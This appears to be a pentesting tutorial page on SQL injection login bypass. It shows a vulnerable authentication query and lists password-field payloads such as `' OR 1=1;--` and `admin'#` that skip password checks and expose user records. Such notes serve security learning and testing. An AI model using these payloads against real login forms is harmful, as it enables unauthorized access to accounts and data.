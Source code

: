 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# Authentication Bypass

This method consists of considering that the web application isn't interested in the content of the username and password, but in making a matching pair in the users' table.

* We assume the database uses a basic query for authentication

{% code overflow="wrap" lineNumbers="true" %}
```sql
SELECT * from users WHERE username='%user%' and password='%password%' LIMIT 1;
```
{% endcode %}

{% hint style="info" %}
_%user%_ and _%password%_ are the values received on a login form
{% endhint %}

***

* We can do a malicious insertion on the password field

{% code overflow="wrap" lineNumbers="true" %}
```sql
'--   #Use this comparison to cheat on verification
' OR 1=1;--   #Another alternative
'+OR+1=1-- #Another alternative
#This will skip the password verification and enumerate all the users
```
{% endcode %}

{% hint style="info" %}
Sometimes and extra space after `;--` could make it work
{% endhint %}

***

* On PHP-based pages, we can replicate the same with a different payload

{% code overflow="wrap" lineNumbers="true" %}
```java
admin'#      //Insert this to skip the password verification
```
{% endcode %}
